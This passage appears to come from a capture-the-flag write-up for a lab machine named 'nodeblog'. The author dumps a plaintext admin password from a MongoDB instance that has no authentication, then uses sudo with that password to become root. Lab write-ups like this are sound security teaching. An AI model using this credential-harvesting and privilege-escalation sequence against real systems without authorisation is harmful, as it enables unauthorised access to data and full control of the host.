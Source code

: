 Now lets access mongodb and the data inside it →

```bash
admin@nodeblog:/dev/shm$ mongo
MongoDB shell version v3.6.8
connecting to: mongodb:/127.0.0.1:27017
Implicit session: session { "id" : UUID("5e7d0d52-3790-469c-8552-312075db8411") }
MongoDB server version: 3.6.8
Server has startup warnings: 
2023-07-26T08:26:10.278+0000 I CONTROL  [initandlisten] 
2023-07-26T08:26:10.278+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2023-07-26T08:26:10.278+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2023-07-26T08:26:10.278+0000 I CONTROL  [initandlisten] 
> show dbs
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
> use local
switched to db local
> show collections
startup_log
> use blog
switched to db blog
> show collections
articles
users
>
```
{: .nolineno}
{: .nolineno}

Here I found inside users table →

```bash
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
>
```
{: .nolineno}
{: .nolineno}

Now lets use it to get to root →

```bash
admin@nodeblog:~$ sudo -l
[sudo] password for admin: 
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
admin@nodeblog:~$ sudo su -
root@nodeblog:~# whoami
root
root@nodeblog:~# id
uid=0(root) gid=0(root) groups=0(root)
root@nodeblog:~# ls -al
total 60
drwx------ 1 root root   162 Jan  4  2022 .
drwxr-xr-x 1 root root   180 Dec 27  2021 ..
-rw------- 1 root root 10687 Jan  4  2022 .bash_history
```